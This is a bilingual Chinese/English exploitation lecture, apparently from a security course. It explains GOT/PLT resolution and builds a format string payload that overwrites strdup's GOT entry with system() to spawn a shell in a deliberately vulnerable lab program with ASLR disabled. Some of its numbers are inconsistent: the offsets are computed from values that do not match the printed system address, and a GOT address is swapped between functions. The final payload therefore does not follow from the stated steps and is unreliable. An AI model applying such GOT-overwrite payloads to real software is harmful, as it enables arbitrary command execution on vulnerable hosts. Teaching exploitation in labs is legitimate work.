


# Format String Vulnerability 2


在开始这一章节之前，请先关闭下面两项：

1. ASLR : `echo "0" | sudo dd of=/proc/sys/kernel/randomize_va_space`.
2. Libc randomization : `ulimit -s unlimited`.


​	这一章中我将接着前面一章，继续关于写任意内存地址这个话题。如果你还没有阅读上一章，请先阅读 [Lecture 5](../Lecture5/README.md) 。

​	在上一章中，我我看到了如何通过格式化字符串漏洞写任意内存，在这一章中我们将会看到如何通过格式化字符串漏洞获得“帮助”进而spawn出一个shell。（不是在开玩笑）

​	在开始之前，我们需要深入理解这个漏洞的利用方式。我还会介绍一些关于这个漏洞利用的相关话题。


### 1. GOT


​	全局偏移表（Global offset table） 

​	当你的程序在调用动态连接的外部库时，就需要用到GOT表。要了解更多关于动态连接的话题可以看这个 [this](https://en.wikipedia.org/wiki/Dynamic_linker) 。使用动态连接减少了程序的体积，但增加了运行时需要进行动态连接的复杂性，同时它也导致了 GOT exploitation 的存在。GOT表以一个表的形式存储着函数调用的实际地址。但这张表本身是由 动态连接器 所创建的。有一个执行流程定义了连接器是如何生成 GOT 表的。来看下面这个程序：

```C
int main()
{
    printf("Hello");
    exit(1);
}
```

实际上，`printf` 和 `scanf` 在内存上的某个地址（具体是哪个地址，一开始程序本身是并不知道的）。编译器会在内存中创建一个映射表，来存储像这些外部函数的地址。关键点在于，共享库会包含所有的包括（`printf`、`scanf`、`exit`、`system`）等函数。但 GOT 表中只会包含有 `printf` 和 `exit` 这两个在程序中有被使用到的函数的映射。


这里的 GOT 表看起来像这样：

| Name     | Address   |
|----------|-----------|
| `printf` | UNDEFINED |
| `scanf`  | UNDEFINED |


​	如果你看到，GOT 表中所包含的地址是设置为 `UNDEFINED` 的。当程序被加载到内存中时，它并不知道程序中所需要使用到的来自共享库的函数的确切位置，而是需要在一次真正的函数调用之后，才会知道。

​	相当于你的共享库代码在内存中的某处，编译器在编译的时候并不知道。因此，编译器引入了 stub 以通过调用动态连接器，或者从GOT表中获取函数的地址。


#### Where is the stub ?


​	使用下面命令查看目录下的任意一个编译后的二进制程序

​	`objdump -d ./string`




```
Disassembly of section .plt:

08048360 <printf@plt-0x10>:
 8048360:    ff 35 04 a0 04 08        pushl  0x804a004
 8048366:    ff 25 08 a0 04 08        jmp    *0x804a008
 804836c:    00 00                    add    %al,(%eax)
    ...

08048370 <printf@plt>:
 8048370:    ff 25 0c a0 04 08        jmp    *0x804a00c
 8048376:    68 00 00 00 00           push   $0x0
 804837b:    e9 e0 ff ff ff           jmp    8048360 <_init+0x2c>

08048380 <strdup@plt>:
 8048380:    ff 25 10 a0 04 08        jmp    *0x804a010
 8048386:    68 08 00 00 00           push   $0x8
 804838b:    e9 d0 ff ff ff           jmp    8048360 <_init+0x2c>
```


​	现在，我把这些补充到 GOT 表中，GOT 表看起来像下面这样：

| Memory address        | Actual address of function |
|-----------------------|----------------------------|
| 0x804a00c -- `printf` | UNDEFINED                  |
| 0x804a010 -- `strdup` | UNDEFINED                  |


​	内存地址 `0x804a00c`  存放 `printf` 函数的真实地址。同样地，`strup` 的真实地址存放在  `0x804a010` 。

​	留意我写的这些调用在上面的GOT表中的值还是 `UNDEFINED` 的，这个你是无法通过 objdump 看出来的。需要使用 debugger 来检查确认这些调用对应的真实地址在一开始是否真的都是空的。我这里用了 Hopper 。

​	如果GOT表中的这些值在一开始都是空的，那么是谁来补充这些空位的呢？这就是这张图中所要显示的，要调用动态连接器了：




```
           Disassembly of section .plt:

+--------->08048360 <printf@plt+0x10>:
|           8048360:    ff 35 04 a0 04 08        pushl  0x804a004
|           8048366:    ff 25 08 a0 04 08        jmp    *0x804a008
|           804836c:    00 00                    add    %al,(%eax)
|              ...
|
|          08048370 <printf@plt>:
|           8048370:    ff 25 0c a0 04 08        jmp    *0x804a00c
|           8048376:    68 00 00 00 00           push   $0x0
+<---------+804837b:    e9 e0 ff ff ff           jmp    8048360 <_init+0x2c>   <-------------+  OBSERVE
|
|          08048380 <strdup@plt>:
|           8048380:    ff 25 10 a0 04 08        jmp    *0x804a010
|           8048386:    68 08 00 00 00           push   $0x8
+<---------+804838b:    e9 d0 ff ff ff           jmp    8048360 <_init+0x2c>   <-------------+  OBSERVE

```


图中的 `<printf@plt+0x10>` ，这就是 Dynamic linker。当程序控制流执行到这里的时候，函数调用会让它去找GOT，但由于函数第一次调用时，GOT表的值还是空的，因此 `jmp    *0x804a010`  这条指令并不起作用。程序控制流继续往下执行，到 `push $0x0, jump 8048360` 这个跳转的地址不是别的，它就是 动态连接器。然后动态连接器会负责解析这次函数调用并且更新 GOT 表的字段。随后的函数调用，都会使用 GOT 表中的地址。


`<printf@plt+0x10>` this is where the Dynamic linker comes into the picture. When the control flows from, function call it goes to the GOT, since during the first call the GOT entry is blank, so the `jmp    *0x804a010` instruction has no effect at all. So the control goes to the next line which `push $0x0, jump 8048360`, the latter jump instruction is nothing but the address of the dynamic linker. Then the dynamic linker is responsible for resolving the call and update the GOT entry. Then the subsequent calls are made using the address in GOT.


在程序中引入了 GOT 这种机制，导致了很多种 exploit 手法的出现。假设我们可以写任意内容到 `0x804a00c` （这本是应该指向printf函数的地址）这个由 动态连接器 更新到 GOT 的地址。这样，当程序执行到 `printf` 的时候，我们就可以控制程序，相当于劫持了真实的 `printf` 而替换成了我们想要的 `system` 。这就是 **GOT exploitation**.


#### Connecting the dots :smiling_imp:

1. 我们已经知道如何通过格式化字符串漏洞写任意内存地址
2. 我们知道了函数调用的细节

```C
#include <stdio.h>
#include <string.h>
// compile with gcc -m32 temp.c

void foo(char *ch)
{
    char buf[100];
    strncpy(buf, ch, 100);
    printf(buf);
    char *name = strdup(buf);
    printf("\nHello %s", name);
}

int main(int argc, char** argv)
{
    foo(argv[1]);
    return 0;
}
```

​	我们将 把 GOT 表中 `strdup` 对应的真实地址修改成 `system` 的真实地址，那样当 `strdup(buf)` 被执行的时候，实际执行的就是`system(buf)` 。如果传入参数 `/bin/sh` 那么就可以 spwan shell 了

​	如果使用 `%n` 写内存会很别扭，我们可以使用 `%hn` 代替会舒服很多，每次可以写2个bytes。

​	

​	生成我们的payload，看起来像下面这样：

```shell
./string `python -c 'import struct; print "sh;#" + struct.pack("<I", <SOME_ADDRESS>) + struct.pack("<I", <SOME_ADDRESS>) +"%<SOME_VALUE>x%11$hn%<SOME_VALUE>x%12$hn"'` 
```

​	11 和 12 是我的 `buf` 到 `printf` 的 offset 。在你的环境中有可能会有所不同。你只需要的不是copy，是理解概念。

​	到目前，我们拿到了我们要修改为 `system` 函数的真实地址的函数的offset， 

We now have the offset on which we will write our address of `system` function in two parts, but we know that `%hn` will the number of characters printed with `printf` we have to print `len(address(system))` length of garbage. 

​	但又由于在这个例子中我们的字符串尺寸受到限制，我们无法直接这样构造。这里，我们需要接着 `%x` 格式化占位符。`%(n)x` 可以在字符串前面 打印 `(n)` 个空格，而不会额外增加字符串的尺寸。

Since our string is limited in size, we cant do that as well. For that we need to take help from the `%x` format specifier. `%(n)x` format specifier will print `(n)` number of spaces in the output but will not increase the size of input string. :cool:


​	最终的paylaod 看起来像这样：

``./string `python -c 'import struct; print "sh;#" + struct.pack("<I", 0x804a010) + struct.pack("<I", 0x804a012) +"%10948x%11$hn%13068x%12$hn"'` ``

​	接着，来看我是如何拿到 system 的真实地址的：

```bash
$ gdb -q ./string
gef➤  b main
Breakpoint 1 at 0x804854f
gef➤  r
Starting program: /vagrant/Lecture6/string

Breakpoint 1, 0x0804854f in main ()

gef➤  p system
$1 = {<text variable, no debug info>} 0x555c2da0 <system>
```

​	现在，我们已经拿到哦了 `system` 的地址，现在需要把它转换一下格式以适用于 `%(n)x` 。需要两步：

​	Now we have the address of `system` we now need to covert this address to the count for `%(n)x`. And that we will do in two parts.

```python
>>> 0x2ad0 - 12
10948
>>> 0x555c - 0x2250
13068
```

​	得到的这两段就是目标地址转换后的值，作为 `%x` 中的值 `n`。

​	This 2-split address that we calculated with `python` will be the value for `n` in `%x`.


#### Final words.


1. 定位从buffer到printf的offset。 Find out the address offset of buffer from printf.
2. 在buffer的起始位置添加 `sh;#` 后面跟着 GOT 表中的函数地址。 Add `sh;#` to the beginning of buffer, followed by the address of GOT function location.
3. 这个地址会被拆分为两部分进行处理，`GOT的基地址` 以及`GOT的基地址 + 2`  This address will be two parts, `base address of GOT`, `base address of GOT + 2`.
4.  往buffer的指定位置写两个bytes的内存空间（sytem函数的地址） Write two bytes of content (`address of system function call`) to the address specified in buffer.
5. 为何不自己试试? :cool:
